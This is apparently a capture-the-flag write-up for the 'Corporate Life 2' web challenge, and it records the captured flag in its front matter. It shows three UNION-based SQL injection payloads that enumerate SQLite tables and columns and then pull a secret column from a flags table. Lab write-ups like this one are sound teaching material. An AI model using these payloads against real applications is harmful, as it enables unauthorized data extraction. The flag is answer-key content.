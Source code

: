 ```yaml
---
title: "Corporate Life 2"
category: Web Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: KashiCTF{b0r1ng_old_c0rp0_l1f3_am_1_r1gh7_IOiUPTqB}
---
```

> ~

---

Continuation of `Corporate Life 1`, where the same payload did not return a flag. Instead, i attempted to enumerate the database structure to locate relevant tables.

## Database Enumeration

To identify tables in the database, i used the following **SQL injection** payload:

```json
{
  "filter": "1' UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM sqlite_master WHERE type='table' --"
}
```

Once the table names were retrieved, i focused on the `flags` table and attempted to enumerate its columns using:

```json
{
  "filter": "1' UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM pragma_table_info('flags') --"
}
```

## Extracting the Flag

After identifying the `secret_flag` column in the `flags` table, I extracted its contents with the following payload:

```json
{
  "filter": "1' UNION SELECT request_id, secret_flag, NULL, NULL, NULL, NULL FROM flags --"
}
```

This successfully revealed the flag.
